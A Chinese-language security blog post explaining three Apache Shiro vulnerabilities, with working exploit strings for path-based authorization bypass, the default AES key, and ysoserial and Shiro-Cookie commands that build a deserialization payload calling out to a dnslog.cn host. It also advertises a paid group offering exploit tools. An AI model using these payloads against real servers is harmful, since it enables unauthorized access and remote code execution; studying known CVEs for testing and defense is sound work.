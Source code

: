 #  一文了解往年热门的漏洞-shiro   
原创 CatalyzeSec  CatalyzeSec   2024-05-27 20:27  
  
什么是shiro  
  
**Apache Shiro**  
框架是一个功能强大且易于使用的 Java 安全框架，它执行身份验证、授权、加密和会话管理。借助 Shiro 易于理解的 API，您可以快速轻松地保护任何应用程序——从最小的移动应用程序到最大的 Web 和企业应用程序。  
# CVE-2010-3863  
## 漏洞描述  
  
Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。在Apache Shiro 1.1.0以前的版本中，shiro 进行权限验证前未对url 做标准化处理，攻击者可以构造`/`、`//`、`/./`、`/../` 等绕过权限验证  
## 影响版本  
  
shiro < 1.1.0 和JSecurity 0.9.x  
## 漏洞利用  
  
测试页面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibu6kUxsXtRIyAgrSy9MvH7baudhqg8LeYqO0qKC2tYdhJcrXdvVtf5Q/640?wx_fmt=other&from=appmsg "")  
  
exp  
```
/./admin
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibyceM7UYHxYq1ehKiciafJfCP2UTnAxhel7todPl67xDTZEibkw3DV8w6g/640?wx_fmt=other&from=appmsg "")  
  
可以成功绕过权限，访问登录后的页面  
  
CVE-2016-4437（shiro550）  
## 漏洞描述  
  
Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。  
  
shiro550是非常热门的漏洞之一，在往年hvv中是必打的漏洞之一，与之一起提起的就是shiro721（  
CVE-2019-12422），与550不同的是721需要登录后才能在cookie中进行修改值。  
## 漏洞原理  
  
Apache Shiro框架提供了记住密码的功能（RememberMe），用户登录成功后会将用户信息加密，加密过程:用户信息=>序列化=>AES加密=>base64编码=>RememberMe Cookie值。如果用户勾选记住密码，那么在请求中会携带cookie，并且将加密信息存放在cookie的rememberMe字段里面，在服务端收到请求对rememberMe值，先base64解码然后AES解密再反序列化，这个加密过程如果我们知道AES加密的密钥，那么我们把用户信息替换成恶意命令，就导致了反序列化RCE漏洞。在shiro版本<=1.2.4中使用了默认密钥kPH+bIxk5D2deZiIxcaaaA==，这就更容易触发RCE漏洞。**所以我们Payload产生的过程：**  
  
命令=>序列化=>AES加密=>base64编码=>RememberMe Cookie值  
## 影响版本  
  
shiro <= 1.2.4  
## 漏洞利用  
  
测试页面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibI5lG08VY9q1FPch10oJHXaCFiaysOAvoRqohz9aQFlGO9HHmRzUD0Dg/640?wx_fmt=png&from=appmsg "")  
  
指纹识别：  
  
针对于shiro的特征就是在响应头字段中的 rememberMe=DeleteMe 字段  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibqCE85XdfZYhU4ETTy2Is8Ke5eAT1HJwWcibN67db06UGDO2ux3Q8Z9Q/640?wx_fmt=png&from=appmsg "")  
  
利用工具shiro_attack.jar可以很方便的做shiro的检测  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibib3l1PXFzSYQX50Esbh6hHia58icQG4Y9JQJFxwNXjydARwcZCKN7LjtRg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibmn0L5o1DyHicgerGeWJJz5ywtYTOqbib5FExrl0tQicKYXuExj06RR3Ew/640?wx_fmt=png&from=appmsg "")  
## 相关工具/脚本  
### 手工测试  
  
在确认密钥后利用 ysoserial 和 Shiro-Cookie 生成数据填充到 cookie 中来进行  
```
java -jar ysoserial-all.jar CommonsBeanutils1 "ping sfkzl1.dnslog.cn" > poc.ser
```  
```
java -jar Shiro-Cookie.jar  "poc.ser" "kPH+bIxk5D2deZiIxcaaaA=="
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibBOv0Gk7dAxMibjnicNwk7j44V51wich3VgRDcwY28qA6wibnL7fmbYhyVw/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibV3ERO1fwiaOUG7EFtbmSAic8WyQoXNJu5ATmzUQmw9I6WxRzxDcS2ftQ/640?wx_fmt=other&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibx9k0HEwEtib84S2VEUoTmo8E8mvpVs1piahWE74BcNgsypY5BNUDywFQ/640?wx_fmt=other&from=appmsg "")  
  
CVE-2020-1957  
## 漏洞描述  
  
在Apache Shiro 1.5.2以前的版本中，在使用Spring动态控制器时，攻击者通过构造`..;`这样的跳转，可以绕过Shiro中对目录的权限限制。  
## 影响版本  
  
Apache Shiro <= 1.5.2  
## 漏洞利用  
  
测试页面  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibib9KohrtmArGHX55ahmIcGobz7mkacE3fh7jAJWhAiak9XqoG0y6CWuYg/640?wx_fmt=png&from=appmsg "")  
  
exp  
```
/Catalyze/..;/admin/
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibrVbxtqa3dTm3EUDGkFtPHJe1VL0NrG38V0icHtuTIiakzD5sMzGRFNCA/640?wx_fmt=other&from=appmsg "")  
  
关注**CatalyzeSec**公众号  
  
在后台回复 shiro 获取相关工具下载链接  
  
加入星球获取更多  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibg5JaQPHLTrN0Foq7icnCP2HBKDTBnEw73DfZu2DVyNycj1TBcsvYGUw/640?wx_fmt=png&from=appmsg "")  
  
知识星球  
  
高质量安全知识星球社区，致力于漏洞挖掘，渗透技巧，安全资料，星球承诺会持续更新0/1/NDay及对应的批量利用工具，团队内部漏洞库，内外网攻防技巧，你所需要的各类安全工具和资料以及团队师傅们最新的学习研究成果。分享行业内最新动态，解答交流各类技术问题。  
  
涉及方向包括Web渗透、免杀绕过、红蓝攻防、代码审计、应急响应、安全培训、CTF、小白入门、职业规划和疑难解答。**CatalyzeSec**  
，安全技术水平的催化者，星球针对成员的技术问题，快速提供思考方向及解决方案，并为星友提供多种方向的学习资料、安全工具、POC&EXP以及各种学习笔记等，以引导者和催化剂的方式助力安全技术水平的提升。  
  
我们是一个快速成长的team，团队的发展方向与每一位星友的学习方向密切相关，加入我们，一起成为更好的自己！  
  
PS：随着星球内知识的积累，人员的增加，  
星球价格也会随之增加，前一百位加入我们的师傅可享受99元朋友价！  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibib5qjeqj98fEtibZibYgDicqib35KiaYn0lGubL2En5bxQc83BCsLSNx70icdg/640?wx_fmt=jpeg&from=appmsg "")  
  
团队内部独家知识库  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/EqMwaEZz0ykzmQxlJaEaj8S3Gvl1uMibibPZJAfVcrOG5kJXsUpa8AjgR9ALibgOofk6REOVY2oHTh0ib7gBNPKEOA/640?wx_fmt=png&from=appmsg "")  
  
  
